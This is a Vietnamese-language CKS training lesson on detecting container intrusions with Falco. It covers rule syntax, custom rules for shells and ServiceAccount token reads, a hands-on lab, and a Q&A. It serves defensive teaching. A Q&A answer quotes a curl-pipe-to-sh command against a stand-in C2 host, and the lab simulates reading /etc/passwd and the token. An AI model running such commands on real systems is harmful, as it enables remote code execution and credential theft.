




> [!IMPORTANT]
> **Mục tiêu kỹ thuật bài học**:
> - Hiểu rõ vai trò của **Runtime Security** và cơ chế theo dõi lệnh gọi hệ thống (**Linux Kernel System Calls**) của Falco và Sysdig.
> - So sánh hai phương thức thu thập sự kiện kernel của Falco: **Kernel Module** và **Modern eBPF Probe**.
> - Nắm vững cú pháp biên soạn tệp luật Falco (**Rule**, **Condition**, **Output**, **Priority**) kết hợp với **Macros** và **Lists**.
> - Viết các quy tắc phát hiện các hành vi xâm nhập thực tế:
>   - Phát hiện mở Interactive Shell (`bash`, `sh`, `zsh`) bên trong container.
>   - Phát hiện hành vi đọc tệp nhạy cảm (`/etc/shadow`, Kubernetes ServiceAccount token).
>   - Phát hiện tiến trình ghi/sửa tệp trong các thư mục hệ thống (`/etc`, `/bin`, `/usr/bin`).
>   - Phát hiện kết nối mạng ra các cổng bất thường hoặc công cụ mạng (`nc`, `nmap`).
> - Vận hành và tra cứu nhật ký cảnh báo Falco qua `systemd` (`journalctl -u falco`) và trích xuất bằng chứng số.

---

## 1. Bản Chất Kiến Trúc & Tư Duy Cốt Lõi: Giám Sát Thời Gian Chạy (Runtime Threat Detection)

Dù bạn đã quét sạch lỗ hổng ảnh container bằng Trivy và thiết lập NetworkPolicy chặt chẽ, kẻ tấn công vẫn có thể khai thác các lỗ hổng chưa có bản vá (**Zero-Day Vulnerabilities**) hoặc lỗi logic trong mã nguồn ứng dụng để xâm nhập vào container. 

Khi đã ở bên trong container, kẻ tấn công sẽ thực hiện các hành vi độc hại: Khởi tạo reverse shell, quét mạng nội bộ, đọc trộm token xác thực của ServiceAccount, hoặc tải thêm mã độc. Để phát hiện tức thì các hành vi này, ta cần một cơ chế giám sát thời gian thực ở **tầng sâu nhất của hệ điều hành: Linux Kernel**.

Mọi hành vi của tiến trình (đọc file, ghi file, kết nối mạng, khởi tạo process) đều bắt buộc phải gửi yêu cầu thông qua **Lệnh gọi hệ thống (System Calls)** tới Linux Kernel. **Falco** (dự án ươm tạo của CNCF do Sysdig khởi xướng) đóng vai trò là "Camera an ninh" gán trực tiếp vào kernel để bắt giữ và phân tích mọi system call phát sinh theo thời gian thực.



---

## 2. Bảng Ma Trận So Sánh Kỹ Thuật Toàn Diện (Engineering Matrix)

| Tiêu Chí So Sánh | Falco eBPF Driver | Falco Kernel Module | Linux Auditd (auditctl) | Sysdig CLI (Inspect) |
| :--- | :--- | :--- | :--- | :--- |
| **Cơ chế thu thập** | eBPF bytecode gán vào tracepoints | Loadable Kernel Module (.ko) | Kernel Netlink socket | Khung gầm Sysdig capture engine |
| **Tính an toàn Kernel** | <span class="badge badge--emerald">Tuyệt đối (eBPF verifier)</span> | Rủi ro gây kernel panic nếu lỗi | An toàn | An toàn |
| **Yêu cầu nhân Linux** | Kernel 5.8+ (hoặc CO-RE) | Yêu cầu kernel headers | Mọi kernel Linux | Mọi kernel Linux |
| **Hiệu năng & Overhead** | Rất thấp ($< 1.5\%$ CPU) | Rất thấp ($< 1\%$ CPU) | Cao khi tải lớn ($> 15\%$ CPU) | Dùng cho phân tích ngoại tuyến |
| **Hỗ trợ Kubernetes Metadata** | Tự động gắn Pod, NS, Container ID | Tự động gắn metadata | Không hỗ trợ K8s natively | Hỗ trợ qua Sysdig filter |
| **Trọng tâm thi CKS** | Khuyến nghị chuẩn môi trường thi | Phương thức cài đặt cổ điển | Kiến thức OS hardening | Công cụ điều tra sự cố |

---

## 3. Kiến Trúc Môi Trường & Luồng Thực Thi Mẫu

Khi một kẻ xâm nhập mở reverse shell bên trong container, luồng xử lý và phát hiện của Falco diễn ra trong chưa đầy **$1\text{ mili-giây}$**:



### 3.1. Cấu Trúc Bắt Buộc Của Một Falco Rule

Mọi quy tắc tùy chỉnh được khai báo trong `/etc/falco/falco_rules.local.yaml` theo định dạng YAML chuẩn:

```yaml
- rule: Terminal Shell in Container
  desc: Phat hien bat ky tien trinh shell nao duoc khoi tao ben trong container
  condition: >
    spawned_process and
    container and
    proc.name in (bash, sh, zsh, ksh, dash)
  output: >
    CANH BAO AN NINH: Shell duoc mo trong Container (user=%user.name user_loginuid=%user.loginuid
    container_id=%container.id container_name=%container.name pod=%k8s.pod.name ns=%k8s.ns.name
    cmdline=%proc.cmdline image=%container.image.repository)
  priority: WARNING
  tags: [container, shell, mitre_execution]
```

---

## 4. Phân Tích Cạm Bẫy Thực Chiến: Kẻ Tấn Công Chiếm Quyền Shell Trong Container Mà Không Bị Phát Hiện

### Tình Huống Sự Cố Thực Tế:
<span class="badge badge--rose">🕒 09:45 AM</span> Một hacker khai thác lỗ hổng deserialization trên dịch vụ Web và mở thành công shell `/bin/sh`, sau đó đọc tệp tin chứa token xác thực ServiceAccount tại `/var/run/secrets/kubernetes.io/serviceaccount/token`. Mặc dù cụm đã cài Falco, nhưng nhóm vận hành hoàn toàn không nhận được cảnh báo nào do cấu hình sai tên tệp luật tùy chỉnh và cú pháp lọc điều kiện.

### Hậu Quả & Log Lỗi Thực Tế:
```text
================================================================================
INCIDENT LOG: FALCO AUDITING SILENT FAILURE (RULE OVERWRITE MISCONFIGURATION)
================================================================================
[WARN] 2026-09-12T09:45:22.110Z falco-daemon[1842]:
Fri Sep 12 09:45:22 2026: Configuration file /etc/falco/falco_rules.yaml was modified directly!
[FATAL] Local modifications in default falco_rules.yaml were OVERWRITTEN during apt upgrade!

>> THREAT FORENSICS SYSTEM LOGS (RECOVERED FROM AUDITD):
type=SYSCALL arch=c000003e syscall=59 success=yes exit=0 a0=7ffd3a1b a1=7ffd3a28 a2=7ffd3a30
comm="sh" exe="/bin/dash" ppid=1420 pid=8941 auid=4294967295 uid=0 gid=0
type=EXECVE argc=2 a0="sh" a1="-i"

[CONCLUSION] The intrusion succeeded because custom rules were written to default files instead of
/etc/falco/falco_rules.local.yaml, resulting in silent failure of threat alerting!
================================================================================
```

### 5-Whys Root Cause Analysis:
1. <span class="badge badge--primary">Why 1</span> **Tại sao nhóm bảo mật không nhận được cảnh báo khi hacker mở shell?** $\rightarrow$ Vì Falco Engine không kích hoạt quy tắc cảnh báo nào khi sự kiện `execve` xảy ra.
2. <span class="badge badge--primary">Why 2</span> **Tại sao quy tắc cảnh báo không được kích hoạt?** $\rightarrow$ Vì quy tắc do kỹ sư viết trước đó trong tệp `/etc/falco/falco_rules.yaml` đã bị xóa sạch sau khi tiến hành lệnh `apt-get upgrade falco`.
3. <span class="badge badge--primary">Why 3</span> **Tại sao tệp luật lại bị ghi đè khi nâng cấp gói phần mềm?** $\rightarrow$ Vì kỹ sư đã sửa trực tiếp vào tệp luật mặc định của nhà sản xuất thay vì viết vào tệp luật tùy chỉnh `/etc/falco/falco_rules.local.yaml`.
4. <span class="badge badge--primary">Why 4</span> **Tại sao tệp local rules lại được khuyến nghị cho mọi hệ thống?** $\rightarrow$ Vì Falco ưu tiên nạp tệp mặc định trước, sau đó nạp tệp `falco_rules.local.yaml` để mở rộng và ghi đè an toàn mà không bao giờ bị gói cài đặt can thiệp.
5. <span class="badge badge--emerald">Root Cause Remedy</span> **Biện pháp khắc phục chuẩn CKS:**
   - <span class="badge badge--emerald">Chỉ Viết Luật Vào Tệp Local Rules:</span> Luôn luôn lưu trữ các quy tắc tùy chỉnh tại `/etc/falco/falco_rules.local.yaml`.
   - <span class="badge badge--cyan">Khởi Động Lại Hoặc Reload Falco:</span> Sử dụng lệnh `systemctl restart falco` hoặc gửi tín hiệu `kill -1 $(pidof falco)` (SIGHUP) để Falco nạp lại luật mới mà không làm rớt dịch vụ.
   - <span class="badge badge--primary">Kiểm Tra Cú Pháp Bằng Cờ Validate:</span> Kiểm tra tính đúng đắn của tệp luật bằng lệnh `falco -V /etc/falco/falco_rules.local.yaml` trước khi reload.

---

## 5. Hands-on Lab: Cài Đặt Falco, Viết Custom Rules & Bắt Trộm Tấn Công Thời Gian Thực (8 Bước)

| Bước | Mục Tiêu Kỹ Thuật | Đầu Ra Kiểm Tra |
| :---: | :--- | :--- |
| **1** | Kiểm tra trạng thái dịch vụ Falco trên Node | `systemctl status falco` ở trạng thái active |
| **2** | Kiểm tra cấu hình nạp quy tắc trong `falco.yaml` | Xác nhận `falco_rules.local.yaml` được khai báo |
| **3** | Biên soạn quy tắc phát hiện mở Shell trong Container | Luật `Detect Shell in Container` trong file local |
| **4** | Biên soạn quy tắc phát hiện đọc tệp ServiceAccount Token | Luật `Unauthorized Read of K8s Token` |
| **5** | Kiểm tra cú pháp toàn bộ tệp luật (Syntax Validation) | Lệnh `falco -V` trả về `Rules validation -> SUCCESS` |
| **6** | Khởi động lại Falco để áp dụng cấu hình mới | `systemctl restart falco` thành công |
| **7** | Mô phỏng hành vi tấn công tạo vi phạm an ninh | Chạy lệnh `kubectl exec` mở shell và đọc token |
| **8** | Tra cứu và trích xuất nhật ký cảnh báo qua `journalctl` | Bằng chứng cảnh báo in rõ Pod name, UID và command |

### Bước 1: Kiểm Tra Trạng Thái Dịch Vụ Falco

```bash
systemctl status falco
```

### Bước 2: Kiểm Tra Thứ Tự Nạp Tệp Quy Tắc Trong `/etc/falco/falco.yaml`

```bash
grep -n "rules_files:" -A 5 /etc/falco/falco.yaml
# Đầu ra chuẩn phải chứa:
# rules_files:
#   - /etc/falco/falco_rules.yaml
#   - /etc/falco/falco_rules.local.yaml
#   - /etc/falco/k8s_audit_rules.yaml
```

### Bước 3: Thêm Quy Tắc Phát Hiện Mở Shell Vào `/etc/falco/falco_rules.local.yaml`

```bash
cat <<'EOF' >> /etc/falco/falco_rules.local.yaml

- rule: Detect Shell in Container
  desc: Canh bao bat ky tien trinh shell nao duoc khoi tao trong Pod
  condition: >
    spawned_process and
    container and
    proc.name in (bash, sh, zsh, ksh, dash)
  output: >
    [FALCO CRITICAL] Shell spawned in container (user=%user.name pod=%k8s.pod.name ns=%k8s.ns.name cmd=%proc.cmdline)
  priority: CRITICAL
  tags: [container, shell]
EOF
```

### Bước 4: Thêm Quy Tắc Phát Hiện Đọc Trộm ServiceAccount Token

```bash
cat <<'EOF' >> /etc/falco/falco_rules.local.yaml

- rule: Unauthorized Read of K8s Token
  desc: Phat hien hanh vi truy cap tep token ServiceAccount tu tien trinh la
  condition: >
    open_read and
    container and
    fd.name glob "/var/run/secrets/kubernetes.io/serviceaccount/token" and
    not proc.name in (node, java, python, nginx)
  output: >
    [FALCO WARNING] ServiceAccount token read by unauthorized process (proc=%proc.name cmd=%proc.cmdline pod=%k8s.pod.name)
  priority: WARNING
  tags: [security, k8s_token]
EOF
```

### Bước 5: Kiểm Tra Tính Hợp Lệ Của Cú Pháp Tệp Luật

```bash
falco -V /etc/falco/falco_rules.local.yaml
```

### Bước 6: Khởi Động Lại Falco Để Áp Dụng Luật Mới

```bash
systemctl restart falco
systemctl is-active falco
```

### Bước 7: Mô Phỏng Hành Vi Tấn Công Bằng `kubectl exec`

```bash
# 1. Chạy một Pod thử nghiệm
kubectl run attack-target --image=busybox:latest --restart=Never -- sleep 3600

# 2. Mở terminal shell bên trong container (Tạo vi phạm Rule 1)
kubectl exec -it attack-target -- /bin/sh -c "cat /etc/passwd"

# 3. Đọc tệp ServiceAccount token bằng tiến trình lạ (Tạo vi phạm Rule 2)
kubectl exec -it attack-target -- /bin/sh -c "cat /var/run/secrets/kubernetes.io/serviceaccount/token || true"
```

### Bước 8: Tra Cứu Nhật Ký Cảnh Báo Vi Phạm Falco Bằng `journalctl`

```bash
journalctl -u falco -n 50 --no-pager | grep "FALCO"

# Kỳ vọng thấy các dòng cảnh báo:
# [FALCO CRITICAL] Shell spawned in container (user=root pod=attack-target ns=default cmd=sh -c cat /etc/passwd)
# [FALCO WARNING] ServiceAccount token read by unauthorized process (proc=cat cmd=cat ... pod=attack-target)

echo ">> [VERIFIED] Chuc mung ban da lam chu Falco Runtime Threat Detection theo chuan CKS!"
```

---

## 6. 10 Câu Hỏi Tự Kiểm Tra Chuyên Sâu (Self-Check Q&A Accordion)

<details class="qa-card">
<summary class="qa-summary">
  <div class="qa-summary-left">
    <span class="qa-num-badge">Q01</span>
    <span>4 trường thuộc tính bắt buộc phải có trong định nghĩa của một Falco Rule là gì?</span>
  </div>
  <span class="qa-chevron">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2.5" viewBox="0 0 24 24"><polyline points="6 9 12 15 18 9"></polyline></svg>
  </span>
</summary>
<div class="qa-answer">
  <div class="qa-answer-header">
    <svg width="14" height="14" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24"><path d="M22 11.08V12a10 10 0 1 1-5.93-9.14"></path><polyline points="22 4 12 14.01 9 11.01"></polyline></svg>
    <span>Phân Tích &amp; Lời Giải Kỹ Thuật</span>
  </div>
  <div style="margin-bottom: 8px;">4 trường bắt buộc gồm: (1) <b style="color: var(--accent-primary);">rule</b>: Tên định danh duy nhất của quy tắc; (2) <b style="color: var(--accent-emerald);">condition</b>: Biểu thức lọc điều kiện sự kiện system call; (3) <b style="color: var(--accent-cyan);">output</b>: Chuỗi định dạng thông điệp cảnh báo in ra khi khớp luật; và (4) <b style="color: var(--accent-rose);">priority</b>: Mức độ nghiêm trọng của sự kiện (EMERGENCY, ALERT, CRITICAL, ERROR, WARNING, NOTICE, INFORMATIONAL, DEBUG).</div>
</div>
</details>

<details class="qa-card">
<summary class="qa-summary">
  <div class="qa-summary-left">
    <span class="qa-num-badge">Q02</span>
    <span>Tại sao cần viết các luật tùy chỉnh trong tệp `/etc/falco/falco_rules.local.yaml` thay vì `/etc/falco/falco_rules.yaml`?</span>
  </div>
  <span class="qa-chevron">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2.5" viewBox="0 0 24 24"><polyline points="6 9 12 15 18 9"></polyline></svg>
  </span>
</summary>
<div class="qa-answer">
  <div class="qa-answer-header">
    <svg width="14" height="14" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24"><path d="M22 11.08V12a10 10 0 1 1-5.93-9.14"></path><polyline points="22 4 12 14.01 9 11.01"></polyline></svg>
    <span>Phân Tích &amp; Lời Giải Kỹ Thuật</span>
  </div>
  <div style="margin-bottom: 8px;">Tệp <code>/etc/falco/falco_rules.yaml</code> là tệp quy tắc mặc định được quản lý bởi trình quản lý gói (apt/yum/helm). Khi có bản cập nhật Falco mới, tệp này sẽ bị <b style="color: var(--accent-rose);">ghi đè tự động</b>, làm mất toàn bộ luật tự viết. Tệp <code>falco_rules.local.yaml</code> được bảo vệ độc lập và không bao giờ bị ghi đè khi nâng cấp.</div>
</div>
</details>

<details class="qa-card">
<summary class="qa-summary">
  <div class="qa-summary-left">
    <span class="qa-num-badge">Q03</span>
    <span>Điều kiện `container` trong biểu thức condition của Falco mang ý nghĩa kỹ thuật gì?</span>
  </div>
  <span class="qa-chevron">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2.5" viewBox="0 0 24 24"><polyline points="6 9 12 15 18 9"></polyline></svg>
  </span>
</summary>
<div class="qa-answer">
  <div class="qa-answer-header">
    <svg width="14" height="14" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24"><path d="M22 11.08V12a10 10 0 1 1-5.93-9.14"></path><polyline points="22 4 12 14.01 9 11.01"></polyline></svg>
    <span>Phân Tích &amp; Lời Giải Kỹ Thuật</span>
  </div>
  <div style="margin-bottom: 8px;"><code>container</code> là một Macro viết sẵn trong Falco, tương đương với điều kiện <b style="color: var(--accent-cyan);">container.id != host</b>. Nó lọc và chỉ kích hoạt cảnh báo cho các tiến trình đang thực thi bên trong một container (được cô lập bởi Linux cgroups &amp; namespaces), bỏ qua các tiến trình hệ thống chạy trực tiếp trên máy chủ Host Node.</div>
</div>
</details>

<details class="qa-card">
<summary class="qa-summary">
  <div class="qa-summary-left">
    <span class="qa-num-badge">Q04</span>
    <span>Làm thế nào để reload lại toàn bộ quy tắc Falco mà không làm gián đoạn hoặc khởi động lại tiến trình daemon?</span>
  </div>
  <span class="qa-chevron">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2.5" viewBox="0 0 24 24"><polyline points="6 9 12 15 18 9"></polyline></svg>
  </span>
</summary>
<div class="qa-answer">
  <div class="qa-answer-header">
    <svg width="14" height="14" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24"><path d="M22 11.08V12a10 10 0 1 1-5.93-9.14"></path><polyline points="22 4 12 14.01 9 11.01"></polyline></svg>
    <span>Phân Tích &amp; Lời Giải Kỹ Thuật</span>
  </div>
  <div style="margin-bottom: 8px;">Gửi tín hiệu <b style="color: var(--accent-emerald);">SIGHUP (Signal 1)</b> tới tiến trình Falco bằng lệnh: <b style="color: var(--accent-primary);">kill -1 $(pidof falco)</b> (hoặc <code>systemctl reload falco</code>). Falco sẽ đọc lại toàn bộ các tệp quy tắc trong bộ nhớ mà không làm rớt các kết nối giám sát eBPF.</div>
</div>
</details>

<details class="qa-card">
<summary class="qa-summary">
  <div class="qa-summary-left">
    <span class="qa-num-badge">Q05</span>
    <span>Sự khác biệt giữa `proc.name` và `proc.cmdline` trong trường output của Falco là gì?</span>
  </div>
  <span class="qa-chevron">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2.5" viewBox="0 0 24 24"><polyline points="6 9 12 15 18 9"></polyline></svg>
  </span>
</summary>
<div class="qa-answer">
  <div class="qa-answer-header">
    <svg width="14" height="14" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24"><path d="M22 11.08V12a10 10 0 1 1-5.93-9.14"></path><polyline points="22 4 12 14.01 9 11.01"></polyline></svg>
    <span>Phân Tích &amp; Lời Giải Kỹ Thuật</span>
  </div>
  <div style="margin-bottom: 8px;"><b style="color: var(--accent-primary);">proc.name</b>: Tên của tệp tin thực thi nhị phân (ví dụ: <code>bash</code>, <code>cat</code>, <code>curl</code>). <b style="color: var(--accent-amber);">proc.cmdline</b>: Toàn bộ dòng lệnh kèm theo tất cả các tham số và cờ đối số mà người dùng đã nhập (ví dụ: <code>curl -s http://malicious-c2.com/payload.sh | sh</code>).</div>
</div>
</details>

<details class="qa-card">
<summary class="qa-summary">
  <div class="qa-summary-left">
    <span class="qa-num-badge">Q06</span>
    <span>Trường `fd.name` trong Falco Rule đại diện cho thông tin gì và thường dùng để phát hiện hành vi nào?</span>
  </div>
  <span class="qa-chevron">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2.5" viewBox="0 0 24 24"><polyline points="6 9 12 15 18 9"></polyline></svg>
  </span>
</summary>
<div class="qa-answer">
  <div class="qa-answer-header">
    <svg width="14" height="14" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24"><path d="M22 11.08V12a10 10 0 1 1-5.93-9.14"></path><polyline points="22 4 12 14.01 9 11.01"></polyline></svg>
    <span>Phân Tích &amp; Lời Giải Kỹ Thuật</span>
  </div>
  <div style="margin-bottom: 8px;"><code>fd.name</code> (File Descriptor Name) đại diện cho đường dẫn tệp tin, socket mạng hoặc pipe mà tiến trình đang tương tác qua system call. Nó thường dùng để phát hiện hành vi <b style="color: var(--accent-rose);">đọc/ghi trái phép vào các tệp nhạy cảm</b> (ví dụ: <code>fd.name startswith /etc</code>, <code>fd.name = /etc/shadow</code>).</div>
</div>
</details>

<details class="qa-card">
<summary class="qa-summary">
  <div class="qa-summary-left">
    <span class="qa-num-badge">Q07</span>
    <span>Làm thế nào để vô hiệu hóa (Disable) một quy tắc mặc định có sẵn trong `falco_rules.yaml` mà không được phép sửa trực tiếp tệp đó?</span>
  </div>
  <span class="qa-chevron">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2.5" viewBox="0 0 24 24"><polyline points="6 9 12 15 18 9"></polyline></svg>
  </span>
</summary>
<div class="qa-answer">
  <div class="qa-answer-header">
    <svg width="14" height="14" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24"><path d="M22 11.08V12a10 10 0 1 1-5.93-9.14"></path><polyline points="22 4 12 14.01 9 11.01"></polyline></svg>
    <span>Phân Tích &amp; Lời Giải Kỹ Thuật</span>
  </div>
  <div style="margin-bottom: 8px;">Khai báo lại tên quy tắc đó trong <code>/etc/falco/falco_rules.local.yaml</code> và gán thuộc tính <b style="color: var(--accent-primary);">enabled: false</b>:
  <div style="margin-top: 6px; padding: 8px; background: rgba(0,0,0,0.2); border-radius: 4px; font-family: monospace; font-size: 0.9em;">
  - rule: Disallowed SSH Connection<br/>
  &nbsp;&nbsp;enabled: false
  </div>
  </div>
</div>
</details>

<details class="qa-card">
<summary class="qa-summary">
  <div class="qa-summary-left">
    <span class="qa-num-badge">Q08</span>
    <span>Lệnh nào giúp kiểm tra tính hợp lệ cú pháp của toàn bộ cấu hình Falco trước khi áp dụng vào Production?</span>
  </div>
  <span class="qa-chevron">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2.5" viewBox="0 0 24 24"><polyline points="6 9 12 15 18 9"></polyline></svg>
  </span>
</summary>
<div class="qa-answer">
  <div class="qa-answer-header">
    <svg width="14" height="14" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24"><path d="M22 11.08V12a10 10 0 1 1-5.93-9.14"></path><polyline points="22 4 12 14.01 9 11.01"></polyline></svg>
    <span>Phân Tích &amp; Lời Giải Kỹ Thuật</span>
  </div>
  <div style="margin-bottom: 8px;">Sử dụng cờ kiểm định <code>-V</code> (Validate): <b style="color: var(--accent-emerald);">falco -V /etc/falco/falco_rules.local.yaml</b>. Nếu cú pháp YAML hoặc các trường lọc bị sai, Falco sẽ in ra chi tiết dòng lỗi và mã lỗi cụ thể.</div>
</div>
</details>

<details class="qa-card">
<summary class="qa-summary">
  <div class="qa-summary-left">
    <span class="qa-num-badge">Q09</span>
    <span>Sysdig CLI (`sysdig`) khác biệt như thế nào so với Falco và khi nào nên dùng `sysdig`?</span>
  </div>
  <span class="qa-chevron">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2.5" viewBox="0 0 24 24"><polyline points="6 9 12 15 18 9"></polyline></svg>
  </span>
</summary>
<div class="qa-answer">
  <div class="qa-answer-header">
    <svg width="14" height="14" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24"><path d="M22 11.08V12a10 10 0 1 1-5.93-9.14"></path><polyline points="22 4 12 14.01 9 11.01"></polyline></svg>
    <span>Phân Tích &amp; Lời Giải Kỹ Thuật</span>
  </div>
  <div style="margin-bottom: 8px;"><b style="color: var(--accent-emerald);">Falco:</b> Hoạt động như một công cụ cảnh báo thời gian thực liên tục (Rule-based alerting engine). <b style="color: var(--accent-cyan);">Sysdig CLI:</b> Hoạt động tương tự như <code>wireshark</code> hay <code>tcpdump</code> nhưng dành riêng cho system calls, cho phép ghi lại tệp capture (<code>.scap</code>) và phân tích điều tra số (Forensics / Post-mortem analysis) sau khi sự cố xảy ra.</div>
</div>
</details>

<details class="qa-card">
<summary class="qa-summary">
  <div class="qa-summary-left">
    <span class="qa-num-badge">Q10</span>
    <span>Làm thế nào để cấu hình Falco gửi cảnh báo trực tiếp tới máy chủ gRPC hoặc HTTP Webhook thay vì chỉ in ra log stdout?</span>
  </div>
  <span class="qa-chevron">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2.5" viewBox="0 0 24 24"><polyline points="6 9 12 15 18 9"></polyline></svg>
  </span>
</summary>
<div class="qa-answer">
  <div class="qa-answer-header">
    <svg width="14" height="14" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24"><path d="M22 11.08V12a10 10 0 1 1-5.93-9.14"></path><polyline points="22 4 12 14.01 9 11.01"></polyline></svg>
    <span>Phân Tích &amp; Lời Giải Kỹ Thuật</span>
  </div>
  <div style="margin-bottom: 8px;">Chỉnh sửa tệp cấu hình chính <code>/etc/falco/falco.yaml</code>:
  <div style="margin-top: 6px; padding: 8px; background: rgba(0,0,0,0.2); border-radius: 4px; font-family: monospace; font-size: 0.9em;">
  http_output:<br/>
  &nbsp;&nbsp;enabled: true<br/>
  &nbsp;&nbsp;url: "http://falcosidekick.monitoring:2801/"<br/>
  grpc_output:<br/>
  &nbsp;&nbsp;enabled: true
  </div>
  </div>
</div>
</details>

---

## 7. Tổng Kết & Lộ Trình Bài Học Tiếp Theo



Làm chủ **Falco Runtime Security** giúp bạn phát hiện mọi mối đe dọa Zero-Day và hoàn thành xuất sắc các câu hỏi thực chiến trong kỳ thi CKS.

> [!TIP]
> **BÀI HỌC TIẾP THEO:**
> Trong **[[Bài 05] Làm Cứng Nhân Linux Cấp Pod: Thực Thi AppArmor Profiles & Seccomp Syscall Filtering](cks-05-05-apparmor-seccomp-cho-pod.html)**, chúng ta sẽ tìm hiểu cách chủ động chặn đứng các lệnh gọi hệ thống nguy hiểm bằng công cụ phòng thủ tích cực: Nạp hồ sơ AppArmor bảo vệ hệ thống tệp và biên soạn bộ lọc Seccomp whitelist syscalls cho Pod.

